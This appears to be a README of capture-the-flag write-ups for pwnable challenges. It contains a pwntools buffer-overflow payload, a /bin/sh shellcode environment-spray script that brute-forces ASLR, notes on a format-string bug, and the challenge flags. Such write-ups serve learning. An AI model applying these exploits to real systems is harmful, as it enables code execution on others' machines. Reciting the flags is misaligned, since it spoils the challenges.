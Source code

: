 #### Simple login

```
from pwn import *
import base64
payload = pack(0xdeadbeef)+pack(0x804925f)+pack(0x811eb40)
print  base64.encodestring(payload)
```

There was a memcpy in auth()  which lead to overflow of ebp , then eip = *(ebp+4) now we place &correct() in our payload which is 
stored in global variable 

##### flag :control EBP, control ESP, control EIP, control the world~

#### OTP 

this had no vuln i know , but apparently u have to use ulimit -f 0 so the passcode file is not created and we can enter '' password
but i still wonder why we have to use subprocces.Popen(['otp',''],stderr=stdout)

#### Tiny Easy

this prog just executed our argv[0] and it had aslr ON , using execv we can give argv[0] whatever we want , and to bypass aslr
we <b> spray the stack with environment variable </b>

```
import os
import struct

shellcode="\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
nopsled = "\x90"*4096;  
payload = nopsled+shellcode

myenv = {}  
for i in range(0,100):  
	myenv["spray"+str(i)] = payload

#envaddr = pack(0xffff3ead)
envaddr = struct.pack("<I",0xff8402c7)

while True:
	print "trying ...."
	p = subprocess.Popen([envaddr], executable="./tiny_easy", env=myenv)
	p.wait()
````
##### flag: What a tiny task :) good job!

#### Fsb 
it was a format string bug , and program asks u to guess a key(random val) ,there are 3 ways to solve problem : <br> 
    1) Leak key ( i did ,but problem is stroull is treadted as int if <stdlib.h> is not included ) <br>
    2) Overwrite key ( it takes a lot of time to print , u had to redirect to > /dev/null ) <br>
    3) Change the control flow ( which i have to try ) <br>
    
##### flag :Have you ever saw an example of utilizing [n] format character?? :(    
    





